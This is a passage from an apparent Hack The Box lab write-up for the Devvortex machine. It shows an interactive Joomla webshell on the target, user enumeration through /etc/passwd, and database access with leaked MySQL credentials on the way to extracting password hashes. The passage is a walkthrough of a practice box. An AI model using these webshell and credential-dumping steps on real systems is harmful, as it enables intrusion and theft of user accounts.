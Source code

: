 ![](attachments/devvortex_12.png)

I can also use an interactive command shell using `console.py` in the repository.

```bash
┌──(kali㉿kali)-[~/htb/Joomla-webshell-plugin]
└─$ python console.py -t http://dev.devvortex.htb
[webshell]> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[webshell]> whoami
www-data
```



# Shell as `logan`

### Enumeration

Let's see if there's any other user exists.

```bash
[webshell]> ls /home
logan


[webshell]> cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
logan:x:1000:1000:,,,:/home/logan:/bin/bash
```

I think `logan` might be the next user that I need to move on.

### Extract hash from DB

First, let's use the found DB credential on the interactive shell.

```bash
[webshell]> mysql -u lewis -p'P4ntherg0t1n5r3c0n##' -e 'show databases;'
Database
information_schema
joomla
performance_schema


[webshell]> mysql -u lewis -p'P4ntherg0t1n5r3c0n##' -e 'use joomla;show tables;'
Tables_in_joomla
sd4fg_action_log_config
sd4fg_action_logs
sd4fg_action_logs_extensions
sd4fg_action_logs_users
sd4fg_assets
<SNIP>
sd4fg_users
sd4fg_viewlevels
sd4fg_webauthn_credentials
sd4fg_workflow_associations
```
